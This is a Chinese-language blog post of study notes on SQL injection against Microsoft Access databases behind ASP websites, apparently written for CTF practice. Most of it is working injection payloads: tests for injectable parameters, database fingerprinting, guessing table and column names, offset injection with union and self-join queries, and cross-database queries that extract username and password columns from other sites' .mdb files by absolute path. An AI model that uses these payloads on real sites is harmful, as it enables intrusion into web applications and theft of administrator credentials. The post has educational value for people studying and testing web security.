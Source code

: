 ```yaml
---
layout:     post
title:      Web笔记（二）SQL注入之Access
subtitle:   这个系列是整理学习安全的笔记，包括Web和PWN的一些知识。本章是Access的SQL注入。
date:       2020-11-28
author:     HouKC
header-img: img/post-bg-rwd.jpg
catalog:    true
tags:
    - CTF
    - web
    - 网络安全
    - 学习笔记
    - SQL注入
    - Access
---
```




## 0x00 Access数据库

access数据库是以文件的形式保存在本地的，后缀是\*.mdb（access2003版及以前）、*.accdb（access2007版）。

一般使用access数据库的网站是windows+iis+access+asp，也就是用windows操作系统、IIS中间件、Access数据库、asp后台语言搭建的网站。

access数据库没有库这个概念，一个access数据库文件就是相当于库，文件里可以有多张表，表中有多个列。



## 0x01 asp连接接access数据库

#### 1. \*.accdb文件连接方式

```asp
<%
"Driver={microsoft access driver(*.mdb)};dbq="*.mdb;uid=admin;pwd=pass;
dim conn
set conn = server.createobject("adodb.connection")
conn.open "provider=Microsoft.ACE.OLEDB.12.0;" & "data source = " & server.mappath("bbs.mdb")
%>
```
#### 2. \*.mdb文件连接方式

```asp
<%
    "Driver={microsoft access driver(*.mdb)};dbq="*.mdb;uid=admin;pwd=pass;
    dim conn
    set conn = server.createobject("adodb.connection")
    conn.open "provider=microsoft.jet.oledB.4.0;" & "data source = " & server.mappath("bbs.mdb")
%>
```



## 0x02 打开access的工具

常用打开工具

- Microsoft Access
- 辅臣数据库浏览器
- 破障浏览器



## 0x03 判断注入点和数据库

```
# 判断注入点
id=1 and 1=1		# 存在数值型注入
id=1' or '1'='1		# 存在字符型注入

# 判断数据库
id=1 and exsits (select * from msysobjects)>0		# 说明是access
id=1 and exsits (select * from sysobjects)>0		# 说明是sqlserver
```



## 0x04 判断数据库表

```
id=1 and exsits (select * from [表名])
# 示例：
id=1 and exsits (select * from admin)
```



## 0x05 判断数据库列名

```
id=1 and exsits (select [字段名] from [表名])
# 示例：
id=1 and exsits (select admin from admin)
```



## 0x06 注入工具

- 穿山甲（pangolin）

- sqlmap



## 0x07 偏移注入

#### 1. 一般思路

借用数据库的自连接查询让数据库内部发生乱序，从而偏移出所需要的字段显示在页面上，但运气很重要，不能保证100%成功。

解决知道Access数据库中知道表名，但是得不到字段的SQL注入困境。

偏移注入流程：

- 判断字段数`order by`
- 判断表名，使用`union select * from`表名来获取
- 开始偏移注入，利用注入公式来注入

**公式**：order by出的字段数减去\*号的字段数（如果\*号是原来17的位置，那这个字段数就是16），然后再用order by的字段数减去2倍刚才得出来的答案。

```
?id=688 union select 1,2,3,4,a.id,b.id,* from ([表名] as a inner join [表名] as b on a.id=b.id)
```

举例：

```
# 首先是
?id=1513+order+by+22
# 测试出是22字段数，然后
?id=1513+union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22+from+admin
# 逐渐减少，用*代替，直到测试正常
?id=1513+union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,*+from+admin
# 可以计算22-16=6，22-6*2=10，所以
?id=1513+union+select+1,2,3,4,5,6,7,8,9,10,a.id,b.id,*+from+(admin+as+a+inner+join+admin+as+b+on+a.id+b.id)
```

再举个例子

```
# 假设order by出的是18，*号有11个，那么就是18-11=7, 18-7*2=4，得到答案就是4。
?id=688 union select 1,2,3,4,a.id,b.id,* from (sys_admin as a inner join sys_admin as b on a.id=b.id)
这里的union select 1,2,3,4就是刚才得出来的长度。
后面的sql语句也是套路来的。
```

#### 2. 其他思路

- 看后台登录文件源码表单里面的参数值。

- 看网站地址链接上的规则。
- 是否判断出对方使用的cms程序。 



## 0x08 垮裤查询

- 条件：同服务器下的站点有注入，知道对方站的数据库绝对路径，知道对方数据库表，表中的字段名可以用这个方法来垮裤查询。

- 绝对路径：D:/wwwroot/...\*.mdb、\*.asa、\*.asp

- 举例：

a是目标站点，b是存在注入的站点，a、b是同服务器的站点。admin为表名，username、password为admin表的段：  

```
http://xxx.com/news/type.asp?id=1 and 1=2 union select 1,2,username,4,5,6 from [D:\wwwroot\1\Databases\xycms.mdb].admin

http://127.0.0.1:81/0/Production/PRODUCT_DETAIL.asp?id=-1 union select 1,2,username,4,5,6,7,8,9,10,11,12,13,14,password,16,17,18,19,20,21,22 from [D:\wwwroot\1\Databases\xycms.mdb].admin

http://127.0.0.1:99/0/Production/PRODUCT_DETAIL.asp?id=-1%20UNION%20SELECT%201,2,username,4,5,6,7,8,9,10,11,12,13,14,password,16,17,18,19,20,21,22%20from%20admin_user%20in%20'C:\Users\Seven\Desktop|webpentest\1\xydata\xycms.mdb'
```